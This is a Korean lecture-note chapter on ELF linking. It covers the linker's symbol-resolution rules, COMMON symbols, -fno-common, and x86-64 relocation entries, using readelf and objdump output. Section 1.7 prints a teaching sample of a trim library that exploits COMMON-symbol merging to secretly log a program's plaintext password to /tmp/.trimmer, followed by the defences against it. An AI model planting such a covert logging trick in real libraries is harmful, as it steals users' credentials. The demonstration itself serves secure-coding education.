C에서 파일 범위에 초기값 없이 쓴 int x;는 잠정 정의(tentative definition)라고 불립니다. 컴파일러 입장에서 이것은 애매한 선언입니다 — 이 파일이 x의 주인일 수도 있지만, 다른 파일이 int x = 3;처럼 제대로 된 정의를 갖고 있고 이 파일은 그저 같은 이름을 한 번 더 적었을 뿐일 수도 있습니다. 파일 하나만 보는 컴파일러는 어느 쪽인지 알 수 없습니다.
COMMON은 이 결정을 링커에게 미루는 장치입니다. 컴파일러는 “x라는 이름으로 4바이트가 필요하다”는 요청만 COMMON에 적어 두고(readelf의 Ndx 열에 COM으로 표시됩니다), 실제 자리는 모든 파일을 다 본 링커가 정합니다. 그래서 COMMON은 재배치 가능 목적 파일에만 존재하고, 실행 목적 파일에서는 위 표의 마지막 회색 행처럼 .data나 .bss 중 한 곳으로 정리됩니다. 문제는 이 “미루기”가 같은 이름이라면 서로 다른 파일의 변수를 하나로 합쳐 버린다는 점이며, 그 결과는 1.7절에서 봅니다.
1.5 링커의 심볼 규칙 (Linker’s Symbol Rules)
이제 재료가 모두 갖춰졌습니다. 같은 이름의 정의가 여럿일 때 링커가 무엇을 고르는지는 다음 네 규칙으로 정해집니다.
- 규칙 1 — 같은 이름의 강한 심볼이 여럿이면 허용되지 않습니다(COMMON 섹션은 예외). 모든 대상이 단 한 번만 정의되도록 보장하며, 어기면 링커 오류입니다.
- 규칙 2 — COMMON 밖에 강한 심볼이 있고 COMMON 안에 같은 이름의 심볼이 하나 이상 있으면, COMMON 밖의 강한 심볼을 고릅니다. COMMON 쪽 심볼에 대한 참조는 모두 그 강한 심볼로 해석됩니다.
- 규칙 3 — 같은 이름의 심볼이 COMMON에만 여럿 있고 COMMON 밖에는 그 이름의 강한 심볼이 없으면, 아무거나 하나를 고릅니다.
- 규칙 4 — 강한 심볼이 있으면 약한 심볼은 강한 심볼로 재배치됩니다.
규칙 3: 재앙이 일어나기를 기다리는 상태
- 슬라이드의 표현 그대로 “재앙이 일어나기를 기다리는 상태(disaster waiting to happen)”입니다. 두 모듈이 각자 자기만의 변수라고 믿고 쓰던 두 전역 변수가, 이름이 같다는 이유만으로 하나의 메모리로 합쳐지기 때문입니다. 링커는 C의 타입을 모르고 이름만 보므로, 두 선언의 타입이 달라도 막지 않습니다.
gcc -fno-common으로 끌 수 있으며, GCC 10(2020)부터는-fno-common이 기본값입니다.- 시험 삼아 다시 켜려면
-fcommon을 줍니다.
규칙 4: 덮어쓸 수 있는 기본 구현
- 강한 심볼이 있으면 같은 이름의 약한 심볼에 대한 참조는 모두 강한 심볼로 재배치됩니다.
- 덕분에 덮어쓸 수 있는 “기본(default)” 구현을 만들 수 있습니다. 라이브러리가 어떤 함수를 약한 심볼로 정의해 두면, 사용자가 같은 이름의 함수를 따로 정의하지 않는 한 라이브러리의 것이 쓰이고, 정의하면 사용자의 것이 쓰입니다. 규칙 1이 금지하는 것은 강한 심볼끼리의 중복이므로 링커 오류도 나지 않습니다.
교재의 규칙과의 대응
1.3절에서 본 어휘 차이를 반영하면, 강의의 규칙 1–3은 교재의 규칙 세 개를 “약한 심볼 → COMMON”으로 바꿔 쓴 것이고, 규칙 4만이 진짜 WEAK 심볼을 위한 규칙입니다.
| 강의의 규칙 | 교재(CS:APP 7.6절)의 규칙 |
|---|---|
| 규칙 1: 강한 심볼 중복 금지 (COMMON 예외) | 규칙 1: 같은 이름의 강한 심볼은 여럿 둘 수 없다 |
| 규칙 2: COMMON 밖의 강한 심볼이 COMMON을 이긴다 | 규칙 2: 강한 심볼 하나와 약한 심볼 여럿이면 강한 심볼을 고른다 |
| 규칙 3: COMMON끼리는 임의로 고른다 | 규칙 3: 약한 심볼끼리는 아무거나 고른다 |
규칙 4: 약한(WEAK) 심볼은 강한 심볼에 양보한다 |
(교재의 “약한 심볼”은 COMMON을 뜻하므로 대응 규칙 없음) |
1.6 예제로 보는 섹션 배정 (Assignment of Symbols to Sections)
1.4절의 표가 실제로 맞는지 두 번째 예제로 확인합니다. linking.c는 외부 함수 foo와 외부 변수 chksum을 쓰고, chksum.c가 그 둘을 정의합니다. 슬라이드의 출력은 gcc 12.3.1로 만든 것입니다.
linking.c
int foo(int arg1, int arg2);
int counter = 1;
static int i;
extern int chksum;
static void bar(int c) {
chksum ^= c;
}
void main(int argc) {
int k = argc;
for (i=0; i<k; i++) {
counter += foo(i, k);
}
bar(counter);
}chksum.c
int chksum;
int foo(int arg1, int arg2) {
return arg1 + arg2 + chksum;
}목적 파일 단계
$ gcc -c linking.c chksum.c
$ readelf -s linking.o
Symbol table '.symtab' contains 10 entries:
Num: Value Size Type Bind Vis Ndx Name
…
4: 0000000000000000 4 OBJECT LOCAL DEFAULT 4 i
5: 0000000000000000 25 FUNC LOCAL DEFAULT 1 bar
6: 0000000000000000 4 OBJECT GLOBAL DEFAULT 3 counter
7: 0000000000000000 0 NOTYPE GLOBAL DEFAULT UND chksum
8: 0000000000000019 103 FUNC GLOBAL DEFAULT 1 main
9: 0000000000000000 0 NOTYPE GLOBAL DEFAULT UND foo
$ readelf -s chksum.o
Symbol table '.symtab' contains 5 entries:
Num: Value Size Type Bind Vis Ndx Name
…
3: 0000000000000000 4 OBJECT GLOBAL DEFAULT 4 chksum
4: 0000000000000000 28 FUNC GLOBAL DEFAULT 1 foo- 표와 정확히 일치합니다. 0이 아닌 값으로 초기화된
counter는 3번 섹션(.data)에, 초기화하지 않은static변수i는 4번 섹션(.bss)에, 함수bar·main·foo는 1번 섹션(.text)에 있습니다. chksum.c의int chksum;은COM이 아닙니다. 초기화하지 않은 전역 변수인데도 4번 섹션(.bss)의GLOBAL심볼로 기록되었습니다. gcc 12.3.1의 기본값이-fno-common이기 때문이며,-fcommon으로 컴파일했다면 Ndx 열에COM이 찍혔을 것입니다.- 외부 참조
chksum과foo는UND이고, 링커가chksum.o의 정의와 짝지어 해석합니다. - 목적 파일의
Value는 섹션 안의 오프셋이므로,bar가 0에서 시작해 25바이트를 차지하고main이 바로 그 뒤인 0x19(= 25)에서 시작합니다.
실행 파일 단계
두 파일을 링크해 실행 파일을 만든 뒤, 섹션 헤더(-S)와 심볼 테이블(-s)을 함께 봅니다(슬라이드는 관련 있는 행만 추렸습니다).
$ gcc -o linking linking.c chksum.c
$ readelf -Ss linking
Section Headers:
[13] .text PROGBITS 0000000000001040 00001040
0000000000000181 0000000000000000 AX 0 0 16
[23] .data PROGBITS 0000000000004000 00003000
0000000000000014 0000000000000000 WA 0 0 8
[24] .bss NOBITS 0000000000004014 00003014
000000000000000c 0000000000000000 WA 0 0 4
Symbol table '.symtab' contains 29 entries:
Num: Value Size Type Bind Vis Ndx Name
2: 0000000000004018 4 OBJECT LOCAL DEFAULT 24 i
3: 0000000000001125 25 FUNC LOCAL DEFAULT 13 bar
9: 000000000000401c 4 OBJECT GLOBAL DEFAULT 24 chksum
15: 0000000000004000 0 NOTYPE GLOBAL DEFAULT 23 __data_start
19: 00000000000011a5 28 FUNC GLOBAL DEFAULT 13 foo
22: 0000000000004010 4 OBJECT GLOBAL DEFAULT 23 counter
23: 0000000000004014 0 NOTYPE GLOBAL DEFAULT 24 __bss_start
24: 000000000000113e 103 FUNC GLOBAL DEFAULT 13 main섹션 헤더의 각 항목은 두 줄로 출력되며, 첫 줄이 [번호] 이름 종류 주소(Address) 파일오프셋(Offset), 둘째 줄이 크기(Size) 항목크기 플래그 Link Info 정렬(Align)입니다. 플래그의 A는 메모리에 적재됨(alloc), X는 실행 가능, W는 쓰기 가능을 뜻합니다. 목적 파일과 비교하면 세 가지가 달라졌습니다.
① 심볼의 값이 오프셋에서 주소로 바뀌었습니다. 섹션 헤더와 심볼 크기를 맞춰 보면 배치가 한 바이트도 어긋나지 않습니다.
| 섹션 | 주소 범위 | 그 안의 배치 |
|---|---|---|
.text |
0x1040 – 0x11c0 (크기 0x181) | … → bar 0x1125 (25 B) → main 0x113e (103 B) → foo 0x11a5 (28 B) |
.data |
0x4000 – 0x4013 (크기 0x14) | __data_start 0x4000 … → counter 0x4010 (4 B) |
.bss |
0x4014 – 0x401f (크기 0xc) | __bss_start 0x4014 … → i 0x4018 (4 B) → chksum 0x401c (4 B) |
- \(\mathtt{0x1125} + 25 = \mathtt{0x113e}\), \(\mathtt{0x113e} + 103 = \mathtt{0x11a5}\), \(\mathtt{0x11a5} + 28 = \mathtt{0x11c1} = \mathtt{0x1040} + \mathtt{0x181}\)입니다. 즉
linking.o의.text(bar,main)가 먼저,chksum.o의.text(foo)가 그 바로 뒤에 붙었고,foo가.text의 마지막 함수입니다..bss에서도linking.o의i뒤에chksum.o의chksum이 붙어.bss의 끝(0x4020)에 정확히 닿습니다. counter앞의 16바이트와i앞의 4바이트는 우리 소스에 없는 데이터입니다. gcc가 실행 파일을 만들 때 자동으로 함께 링크하는 시스템 쪽 목적 파일의 몫이며, 2.1절 그림의 “System data”가 이것입니다.__data_start와__bss_start는 각 섹션의 시작을 표시하는 심볼입니다.
② 로컬 심볼이 살아남았습니다. i와 bar는 실행 파일에서도 LOCAL로 남아 있습니다. 1.4절에서 “실행 파일에서는 제거된다”는 줄에 취소선이 그어진 이유입니다.
③ .bss는 파일에서 공간을 차지하지 않습니다. .data는 파일 오프셋 0x3000에서 0x14바이트를 차지하므로 0x3014에서 끝나는데, .bss의 파일 오프셋이 바로 그 0x3014입니다. 종류가 NOBITS인 .bss는 크기(0xc)만 기록될 뿐 파일에 바이트를 저장하지 않으며, 적재될 때 0으로 채워집니다. 덧붙여 .data의 주소(0x4000)와 파일 오프셋(0x3000)이 다르다는 점도 볼 수 있습니다 — 파일의 0x3000 지점에 있는 바이트가 메모리의 0x4000 주소에 올라간다는 뜻입니다.
1.7 왜 -fno-common이 좋은 기본값인가 (Why is -fno-common a good default?)
규칙 3의 “재앙”이 실제로 어떤 모습인지, 강의는 가상의 쇼핑 프로그램 하나로 보여 줍니다.
쿠팡 CLI
coupang.c는 비밀번호를 입력받아 암호화한 뒤, 공백 제거는 외부에서 받은 문자열 처리 라이브러리(trim.h, trim.o)에 맡깁니다. 평문 비밀번호를 외부 코드에 넘기지 않으려고 신경 쓴 설계입니다.
coupang.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <termios.h>
#include <unistd.h>
#include "trim.h"
char *password, *encoded, *trimmed;
char *secret = "Zljyl{Whzz~vyk(";
ssize_t read_pwd(char **lineptr, size_t *n, FILE *stream) { … }
char* encode(char *password) { … }
int main(int argc, char *argv[])
{
printf("Welcome to CLI Coupang\n");
printf(" Enter your password: "); fflush(stdout);
password = NULL;
size_t pwd_len = 0;
if (read_pwd(&password, &pwd_len, stdin) <= 0) {
printf("\n\nCannot read password!\n");
return EXIT_FAILURE;
}
encoded = encode(password); // 외부 라이브러리에 넘기기 전에 비밀번호를 암호화
trimmed = trim(encoded); // 암호화된 문자열에서 공백 제거 (외부 라이브러리)
if ((trimmed == NULL) || (strcmp(trimmed, secret) != 0)) {
printf("\n\nWrong password.\n");
return EXIT_FAILURE;
}
printf("\n\nWhat would you like to buy?\n");
return EXIT_SUCCESS;
}# given: string trim library
$ make coupang
gcc -O2 -fcommon -Wall -pipe -o coupang coupang.c trim.o
$ ./coupang
Welcome to CLI Coupang
Enter your password: <…>
What would you like to buy?올바른 비밀번호를 넣었고, 프로그램은 정상적으로 동작했습니다. 참고로 secret의 각 문자에서 문자 코드 7을 빼면(Z→S, l→e, …, (→!) SecretPassword!가 됩니다.
한참 뒤, 수상한 파일
$ cat /tmp/.trimmer
password: 'SecretPassword!
'평문 비밀번호가 파일에 적혀 있습니다. 닫는 따옴표가 다음 줄에 찍힌 것은 터미널에서 입력한 줄바꿈 문자까지 비밀번호 문자열에 들어 있었기 때문입니다. coupang.c는 암호화된 문자열만 라이브러리에 넘겼는데, 어떻게 평문이 샌 것일까요?
무슨 일이 일어났는가
우리가 소스를 본 적 없는 trim.c는 이렇게 생겼습니다.
trim.c (우리는 모르는 코드)
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char *password; // coupang.c의 전역 변수와 같은 이름
char *trim(const char *string)
{
const char *s = string, *first = NULL, *last = NULL;
char *trimmed = NULL;
while (*s != '\0') {
if (*s > ' ') {
if (!first) first = s;
last = s;
}
s++;
}
if (first && last) {
trimmed = (char*)calloc(last-first+2, sizeof(char));
if (trimmed) memcpy(trimmed, first, last-first+1);
}
if (password != NULL) { // 합쳐진 password가 가리키는 평문을 몰래 기록
FILE *f = fopen("/tmp/.trimmer", "a+");
if (f != NULL) {
fprintf(f, "password: '%s'\n", password);
fclose(f);
}
}
return trimmed;
}$ make coupang
gcc -O2 -fcommon -Wall -o coupang coupang.c trim.o슬라이드의 설명은 한 줄입니다 — coupang.c와 trim.c의 심볼 password가 COMMON 섹션에 배정되었고, 링커가 둘을 합쳤다.
- 두 파일 모두
char *password;를 초기값 없이 전역으로 선언했습니다.-fcommon아래에서 이는 COMMON 심볼이 되고, 규칙 3에 따라 링커는 둘 중 하나를 골라 하나의 메모리로 만듭니다. - 그 결과
trim()안의password는 곧coupang.c의password이며,read_pwd()가 채워 넣은 평문 비밀번호를 가리키는 포인터입니다.trim()은 암호화된 문자열을 인자로 받는 척하면서 전역 변수로 평문을 읽어 간 것입니다. if (password != NULL)검사도 교묘합니다. 병합이 일어나지 않으면trim.c의password는 0으로 초기화된 자기만의 변수이므로 이 블록은 아무 일도 하지 않고, 라이브러리는 무해해 보입니다.- 대조가 되는 이름이 하나 더 있습니다.
coupang.c의 전역 변수trimmed와 같은 이름이trim.c에도 있지만, 그쪽은 함수 안의 지역 변수라서 심볼이 아니므로 합쳐지지 않습니다(1.1절).
엄밀히 말하면 -fcommon은 이 명령이 새로 컴파일하는 coupang.c에만 적용되고, 이미 만들어진 trim.o에는 영향을 주지 못합니다. trim.o도 -fcommon으로 만들어졌다면 두 심볼이 모두 COMMON이므로 규칙 3으로, 바로 아래 오류 메시지가 보여 주듯 trim.o의 password가 .bss의 강한 심볼이라면 규칙 2로 합쳐집니다. 어느 쪽이든 결과는 같습니다.
-fno-common으로 빌드하면
$ make coupang
gcc -O2 -fno-common -Wall -pipe -o coupang coupang.c trim.o
/usr/lib/gcc/x86_64-pc-linux-gnu/12/../../../../x86_64-pc-linux-gnu/bin/ld: trim.o:(.bss+0x0): multiple definition of `password'; /tmp/ccGubfed.o:(.bss+0x10): first defined here
collect2: error: ld returned 1 exit status
make: *** [Makefile:20: coupang] Error 1이번에는 링크가 실패합니다. coupang.c의 password도 .bss의 강한 심볼이 되었으므로(/tmp/ccGubfed.o는 coupang.c를 컴파일한 임시 목적 파일입니다), 같은 이름의 강한 심볼이 둘이 되어 규칙 1에 걸립니다. 조용한 병합 대신 시끄러운 오류 — 이것이 -fno-common이 좋은 기본값인 이유입니다.
그러나 라이브러리로 제공되면
trim 코드가 목적 파일이 아니라 라이브러리로 배포된다고 합시다. 라이브러리 제작자는 -fcommon으로 컴파일해 아카이브를 만들었습니다.
$ gcc -O2 -fcommon -c trim.c
$ ar rcv libtrim.a trim.o# trim library in libtrim.a
$ make coupang
gcc -O2 -fno-common -Wall -pipe -o coupang coupang.c -L. -ltrim
$ LD_LIBRARY_PATH=.:$LD_LIBRARY_PATH ./coupang
Welcome to CLI Coupang
Enter your password:
Wrong password.
$ cat /tmp/.trimmer
password: '-fno-common doesn't work in this case!
'우리는 -fno-common으로 빌드했는데도 링크는 성공하고, 비밀번호로 입력한 문장이 그대로 유출되었습니다. 비밀번호가 틀려도 유출이 일어난 것은 trim()이 비밀번호 비교보다 먼저 호출되기 때문입니다.
-fno-common은 우리 쪽 컴파일만 바꿉니다
-fno-common은 지금 컴파일하는 소스 파일의 초기화되지 않은 전역 변수를 COMMON 대신 .bss의 강한 심볼로 만들라는 옵션입니다. 이미 다른 사람이 -fcommon으로 컴파일해 둔 라이브러리 안의 COMMON 심볼은 바꾸지 못하고, 그 COMMON 심볼은 규칙 2에 따라 우리의 강한 심볼 password에 조용히 합쳐집니다. 규칙 1이 막는 것은 “강한 심볼 둘”뿐이므로 링커 오류도 나지 않습니다. 확실한 방어는 애초에 우리 쪽 이름을 다른 모듈이 볼 수 없게 만드는 것, 곧 다음 절의 static입니다.
1.8 해석 단계의 교훈 (Resolution Take-Aways)
강의가 정리한 교훈은 다음과 같습니다. 각 항목이 앞의 어느 규칙을 겨냥하는지를 함께 적었습니다.
- 전역 변수를 피하십시오.
- 꼭 써야 한다면
- 가능한 한 모듈 로컬(
static) 전역 변수를 쓰십시오. 로컬 심볼은 해석의 대상이 아니므로 다른 모듈의 같은 이름과 절대 합쳐지지 않습니다.coupang.c가static char *password;로 선언했다면trim.c의password는 자기만의NULL로 남았을 것입니다. - 모든 전역 변수를 초기화하십시오. 초기화된 전역 변수는
-fcommon아래에서도 COMMON이 되지 않고.data나.bss의 강한 심볼이 되므로, 이름 충돌이 조용한 병합 대신 규칙 1의 링커 오류로 드러납니다. - 외부 전역 변수를 참조할 때는
extern키워드를 쓰십시오.extern선언은 정의를 만들지 않으므로 “정의는 한 곳, 나머지는 참조”라는 구조가 소스에 명시됩니다.extern없이 여러 파일에int x;를 쓰면 그 각각이 잠정 정의가 되어,-fcommon에서는 몰래 합쳐지고-fno-common에서는 중복 정의 오류가 납니다.
- 가능한 한 모듈 로컬(
2. 심볼 재배치 (Symbol Relocation)
해석이 끝나면 모든 심볼 사용이 어느 정의를 가리키는지는 정해졌습니다. 그러나 그 정의가 어느 주소에 있는지는 아직 아무도 모릅니다. 컴파일러는 파일마다 코드와 데이터를 주소 0부터 늘어놓았고, 다른 파일의 심볼이 들어갈 자리는 비워 두었습니다. 재배치는 이 두 문제를 한꺼번에 해결합니다 — 목적 파일들을 하나의 주소 공간으로 합치고, 그렇게 확정된 주소로 비워 둔 자리를 채웁니다.
2.1 코드와 데이터의 재배치 (Relocating Code and Data)
목적 파일에서 프로세스 주소 공간으로

main.o(함수 main과 초기값 1, 2를 가진 배열 buf)와 swap.o(함수 swap, buf의 첫 원소 주소로 초기화된 bufp0, static 포인터 bufp1)입니다. 색은 섹션 종류를 나타냅니다 — 노란색은 코드(.text), 파란색은 초기값이 있는 데이터(.data), 초록색은 초기값이 없는 데이터(.bss)이며, 각 상자 오른쪽에 섹션 이름이 적혀 있습니다. 왼쪽 아래의 “Independent address space”는 각 파일의 섹션이 저마다 주소 0에서 시작한다는 뜻입니다. 가운데 세 화살표를 지나 오른쪽 프로세스 주소 공간(맨 위가 주소 0)으로 가면, 같은 색의 조각들이 종류별로 모여 System code → main → swap → More system code가 하나의 .text로, System data → buf → bufp0이 하나의 .data로, bufp1이 .bss로 묶이고 그 아래에 힙(Heap)이 이어집니다. 오른쪽 아래의 “Common address space — relative position of objects to each other known”이 이 그림의 결론입니다. 합친 뒤에는 모든 객체 사이의 상대 위치가 확정되므로, 이제야 “main에서 swap까지 몇 바이트인가” 같은 질문에 답할 수 있습니다.- 링크 전: 독립된 “주소 공간”(Independent “address space”). 목적 파일마다 섹션이 각자 0에서 시작합니다. 1.6절에서 목적 파일의
Value가 0이나 0x19 같은 작은 수였던 이유입니다. - 링크 후: 공통 주소 공간(Common address space). 링커는 같은 종류의 섹션끼리 이어 붙여 하나의
.text, 하나의.data, 하나의.bss를 만듭니다. - 객체들 사이의 상대 위치가 확정됩니다(Relative position of objects to each other known). 이 한 줄이 재배치 전체의 전제입니다. 뒤에서 보겠지만 대부분의 참조는 “여기서 저기까지 몇 바이트”라는 상대 거리로 인코딩되는데, 그 거리는 합친 뒤에야 계산할 수 있습니다.
프로세스 주소 공간에서 실행 파일로

.text와 파란색 .data의 배치가 한 칸도 다르지 않다는 것이 보입니다 — 실행 파일은 곧 메모리 배치의 설계도입니다. 달라지는 곳은 세 군데입니다. 첫째, 파일의 맨 위에는 주소 공간에 없던 Headers가 붙습니다. 둘째, 주소 공간에서 bufp1 한 칸을 차지하던 초록색 .bss가 파일에서는 얇은 선 하나로 줄어들고 “size=0”이라고 적혀 있습니다 — 초기값이 전부 0인 데이터는 크기만 기록해 두면 되므로 파일에 바이트를 저장하지 않습니다. 셋째, 주소 공간의 힙 자리에 해당하는 파일의 끝부분에는 .symtab(심볼 테이블)과 .debug(디버그 정보)가 놓이는데, 이들은 링커와 디버거를 위한 정보이지 실행 중에 메모리에 올라갈 내용이 아닙니다.- 실행 파일(ELF)은 프로세스 주소 공간의 배치를 그대로 옮겨 적은 것이고, 맨 앞에 헤더가 붙습니다.
.bss는 파일에서 크기 0입니다. 1.6절에서.bss의 파일 오프셋이.data가 끝나는 지점과 같았던 것이 바로 이 그림의 “size=0”입니다..symtab과.debug는 파일에만 있고 주소 공간에는 없습니다. 반대로 힙은 실행 중에 만들어지므로 파일에는 없습니다.
외부 함수 호출은 어떻게 인코딩되는가
이제 “비워 둔 자리”가 실제로 어떻게 생겼는지 봅니다. 출발점은 기계어 수준의 call 명령입니다.
call <PC-relative offset>x86-64의 call은 목적지의 주소가 아니라 현재 PC로부터의 상대 거리를 피연산자로 가집니다. 그렇다면 컴파일러와 어셈블러는 어디 있는지 모르는 외부 함수에 대한 호출을 어떻게 인코딩할까요? 1.6절의 linking.c를 -O2로 컴파일해 어셈블리를 보면, 이 단계까지는 여전히 이름이 쓰여 있습니다.
$ gcc -O2 -S linking.c
$ vi linking.s
…
.L3:
movl %ebx, %esi
call foo@PLT
movl i(%rip), %edx
addl counter(%rip), %eax
movl %eax, counter(%rip)
…이것을 어셈블해 목적 파일로 만든 뒤 objdump -r -d(-r: 재배치 정보, -d: 역어셈블)로 보면, 이름이 있던 자리가 어떻게 바뀌었는지 드러납니다.
$ gcc -c linking.s
$ objdump -r -d linking.o
20: 89 de mov %ebx,%esi
22: e8 00 00 00 00 call 27 <main+0x27>
23: R_X86_64_PLT32 foo-0x4
27: 8b 15 00 00 00 00 mov 0x0(%rip),%edx # 2d <main+0x2d>
29: R_X86_64_PC32 .bss-0x4
2d: 03 05 00 00 00 00 add 0x0(%rip),%eax # 33 <main+0x33>
2f: R_X86_64_PC32 counter-0x4
33: 89 05 00 00 00 00 mov %eax,0x0(%rip) # 39 <main+0x39>
35: R_X86_64_PC32 counter-0x4| 명령 (위치) | 기계어 | 재배치 항목 | 가리키는 대상 |
|---|---|---|---|
call foo@PLT (0x22) |
e8 00 00 00 00 |
23: R_X86_64_PLT32 foo-0x4 |
외부 함수 foo |
movl i(%rip), %edx (0x27) |
8b 15 00 00 00 00 |
29: R_X86_64_PC32 .bss-0x4 |
로컬 변수 i |
addl counter(%rip), %eax (0x2d) |
03 05 00 00 00 00 |
2f: R_X86_64_PC32 counter-0x4 |
전역 변수 counter |
movl %eax, counter(%rip) (0x33) |
89 05 00 00 00 00 |
35: R_X86_64_PC32 counter-0x4 |
전역 변수 counter |
- 주소가 들어갈 4바이트는 전부
00으로 비어 있습니다. 그리고 각 줄 아래에 슬라이드가 재배치 항목(relocation entry)이라고 짚은 줄이 붙어 있습니다. - 재배치 항목의 위치(0x23, 0x29, 0x2f, 0x35)는 명령의 시작이 아니라 비어 있는 4바이트의 시작입니다. 예컨대
call은 0x22에 연산 코드e8이 있고, 빈칸은 0x23–0x26입니다. objdump가call 27 <main+0x27>이라고 보여 주는 것은 빈칸의 0을 그대로 해석한 결과입니다. “다음 명령의 주소(0x27) + 0”을 목적지로 계산했을 뿐, 실제 목적지가 아닙니다.# 2d <main+0x2d>같은 주석도 같은 이유입니다.- 로컬 변수
i는 이름 대신.bss로 참조됩니다.i는 다른 모듈이 가로챌 수 없는 로컬 심볼이므로, 어셈블러는 참조를 “이 파일의.bss섹션 시작 +i의 위치(0)”로 바꿔 기록합니다. 반면 전역 변수counter는 이름 그대로 남습니다. - 데이터 접근도 PC-상대입니다.
0x0(%rip)는%rip(PC) 기준으로 데이터에 접근하는 x86-64의 주소 지정 방식으로, 함수 호출뿐 아니라 전역 변수 접근도 “여기서부터 몇 바이트”로 인코딩됩니다. - 빈칸이 하필
0인 것은 x86-64가 addend(-0x4)를 기계어 자리가 아니라 재배치 항목 안에 따로 보관하기 때문입니다. 그 항목의 구조가 다음 절의 주제입니다.
2.2 재배치 정보 (Relocation Information)
ELF 재배치 항목 Elf64Rela
슬라이드가 제시하는 재배치 항목의 구조는 다음과 같습니다.
typedef struct {
long offset; /* 섹션 안에서 참조가 있는 위치 (offset of reference in section) */
long type:32, /* 재배치 타입 (relocation type) */
symbol:32; /* 심볼 테이블 안의 인덱스 (index of symbol in symbol table) */
long addend; /* 재배치 식에 더할 상수 (addend for relocation expression) */
} Elf64Rela;
objdump -r 출력의 한 줄에 어떻게 대응하는지를 보여 주는 그림입니다. 위쪽 상자는 슬라이드가 제시한 구조체 Elf64Rela로, offset(섹션 안에서 참조가 있는 위치), 32비트씩 나눠 가진 type(재배치 타입)과 symbol(심볼 테이블 안의 인덱스), 그리고 addend(재배치 식에 더할 상수) 네 필드로 이루어져 있으며 오른쪽 글이 각 필드의 설명입니다. 아래쪽은 2.1절 linking.o의 재배치 항목 23: R_X86_64_PLT32 foo-0x4를 빨간 글씨로 적고 네 부분을 타원으로 갈라 표시한 것입니다 — 23은 offset, R_X86_64_PLT32는 type, foo는 symbol, -0x4는 addend입니다. objdump가 사람이 읽기 좋게 한 줄로 늘어놓은 문자열이 실제로는 네 개의 숫자 필드이며, 링커가 비어 있는 바이트를 채우는 데 필요한 정보가 이 네 값에 전부 들어 있다는 것이 이 그림의 요점입니다.| 필드 | 뜻 | 링커에게 알려 주는 것 | 23: R_X86_64_PLT32 foo-0x4에서 |
|---|---|---|---|
offset |
섹션 안에서 참조가 있는 위치 | 어디를 고칠지 | 0x23 |
type |
재배치 타입 | 어떤 공식으로, 몇 바이트를 고칠지 | R_X86_64_PLT32 |
symbol |
심볼 테이블 안의 인덱스 | 누구의 주소를 기준으로 할지 | foo |
addend |
재배치 식에 더할 상수 | 결과를 얼마나 보정할지 | -0x4 |
실제 <elf.h>의 정의(Elf64_Rela)에서는 필드 이름이 r_offset, r_info, r_addend이고, 슬라이드의 type과 symbol은 64비트 필드 r_info 하나에 함께 담겨 있습니다(하위 32비트가 타입, 상위 32비트가 심볼 인덱스이며 ELF64_R_TYPE, ELF64_R_SYM 매크로로 꺼냅니다). 슬라이드의 비트필드 표기는 그 구조를 풀어 쓴 것입니다. 구조체 이름의 “Rela”는 addend를 항목 안에 가진(Relocation with addend) 형식이라는 뜻입니다.
x86-64 재배치 타입
x86-64에는 수십 가지 재배치 타입이 있지만, 강의가 다루는 것은 스몰 코드 모델(small code model), 즉 코드와 데이터를 합친 크기가 2 GB 이하인 프로그램에서 쓰이는 몇 가지입니다. 이 제한 덕분에 프로그램 안의 어느 명령에서 어느 데이터까지의 거리도 부호 있는 32비트(\(\pm 2\,\mathrm{GB}\))에 들어가므로, 상대 거리를 4바이트에 담을 수 있습니다.
| 타입 | 종류 | 재배치 위치에 기록되는 것 | 의미 |
|---|---|---|---|
R_X86_64_64 / R_X86_64_32 / R_X86_64_32S |
절대 참조 (S: 부호 확장) | 대상의 주소 그 자체 | 기록된 값 = 접근할 대상 |
R_X86_64_PC32 |
객체·함수에 대한 PC-상대 참조 | 대상까지의 거리 (4바이트) | 현재 PC + 기록된 값 = 접근할 대상 |
R_X86_64_PLT32 |
객체의 PLT 항목에 대한 PC-상대 참조 | PLT 항목까지의 거리 (4바이트) | 현재 PC + 기록된 값 = 객체의 PLT 항목 |
- 절대 참조의 숫자는 기록할 크기입니다.
64는 8바이트,32와32S는 4바이트이며,32S는 CPU가 그 4바이트를 64비트로 부호 확장해 쓰는 자리라는 뜻입니다. - PLT(Procedure Linkage Table, 프로시저 연결 테이블)는 링크 시점에 주소를 알 수 없는 외부 함수를 위한 장치입니다. 이런 함수의 주소는 실행 시점에 동적 링커(dynamic linker)가 GOT(Global Offset Table, 전역 오프셋 테이블)를 이용해 해석해야 합니다. 슬라이드는 자세한 내용을 교재 7.12절로 넘깁니다.
2.3 복습: x86-64 레지스터 (Recap: X86_64 Registers)
PC-상대 재배치를 계산하려면 “PC”가 x86-64에서 무엇인지 분명히 해 둘 필요가 있습니다.

%rax 등)이 64비트 전체, 가운데 칸의 %eax가 하위 32비트, %ax가 하위 16비트, 오른쪽 작은 칸의 %ah · %al이 그 안의 상위·하위 8비트를 부르는 이름입니다 — 같은 레지스터의 일부를 서로 다른 이름으로 접근한다는 뜻이며, %r8–%r15는 d(32비트) · w(16비트) · b(8비트) 접미사를 붙여 부릅니다. 오른쪽 열은 호출 규약상의 쓰임새로, %rdi · %rsi · %rdx · %rcx · %r8 · %r9가 1–6번째 인자, %rax가 반환값, %rsp가 스택 포인터입니다. 이 절의 주인공은 표 안에 없는 레지스터입니다 — 슬라이드 오른쪽의 “rip: instruction pointer, stores PC”가 가리키는 %rip, 즉 다음에 실행할 명령의 주소를 담는 프로그램 카운터입니다.%rip는 명령어 포인터(instruction pointer)이며, PC를 저장합니다. 32비트 시절 이름은%eip입니다.- 2.1절의
0x0(%rip)처럼 x86-64는%rip를 메모리 주소 계산의 기준으로 쓸 수 있습니다. 그래서 함수 호출뿐 아니라 전역 변수 접근도 PC-상대 재배치로 처리됩니다.
그림 오른쪽 열 중 %r10(Callee saved), %r11(Used for linking), %r12(Unused for C)의 설명은 현재 쓰이는 System V AMD64 호출 규약과 다릅니다. 현재 규약에서 %r10과 %r11은 호출자 저장(caller-saved) 임시 레지스터이고, %r12는 %r13–%r15와 함께 피호출자 저장(callee-saved) 레지스터입니다. 교재 CS:APP 3판의 레지스터 표도 이 규약을 따릅니다.
2.4 R_X86_64_64/32[S] 재배치 (Relocating R_X86_64_64/32[S])
이제 타입별로 링커가 무엇을 계산하는지 봅니다. 이하에서는 슬라이드의 address of(·)를 \(\operatorname{addr}(\cdot)\)로 줄여 쓰고, 재배치 항목을 \(r\)이라 부르겠습니다.
